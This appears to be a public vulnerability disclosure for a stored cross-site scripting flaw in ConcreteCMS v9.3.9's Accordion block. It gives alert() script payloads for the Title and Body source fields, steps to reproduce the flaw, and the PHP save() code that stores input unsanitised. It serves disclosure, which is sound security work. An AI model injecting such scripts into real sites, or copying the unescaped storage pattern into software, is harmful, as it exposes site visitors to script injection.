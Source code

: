 # Exploit Title: Concretecms v9.3.9 - Cross-Site Scripting (XSS)
## Date: 3/13/2025
## Vendor Homepage: https://github.com/concretecms/concretecms
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Concretecms
## Version: v9.3.9
## Exploit Description:
## ConcreteCMS v9.3.9 suffers from a Stored Cross-Site Scripting (XSS) vulnerability in the Title field、Body source field when adding a Accordion block. This vulnerability allows attackers to cheat other users by injecting malicious scripts into web pages viewed by other users.

## ---------------------------------POC-----------------------------

```
<script>alert('Title');</script>
<script>alert('Body Source');</script>
```

1. Log in as a user with page editing privileges.
2. Click "add content to the page" in the top navigation.
3. Select the Accordion , drag and drop it to the page.
4. Add <script>alert('...');</script> to the Title field、Body source field and then click save,the xss vulnerability appears.

Potentially problematic source code:
```php
public function save($args)
    {
        parent::save($args);

        /** @var Connection $db */
        $db = $this->app->make(Connection::class);
        $db->executeStatement('DELETE FROM btAccordionEntries WHERE bID = ?', [$this->bID]);
        $entries = $this->processJson($args);

        if ($entries) {
            $sortOrder = 0;
            foreach ($entries as $entry) {
                // Add the entry row
                if (isset($entry['description'])) {
                    $entry['description'] = LinkAbstractor::translateTo($entry['description']);
                }
                $db->executeStatement(
                    'INSERT INTO btAccordionEntries (bID, sortOrder, title, description) VALUES (?, ?, ?, ?)',
                    [(int)$this->bID, $sortOrder++, $entry['title'], $entry['description']]
                );
            }
        }
    }
```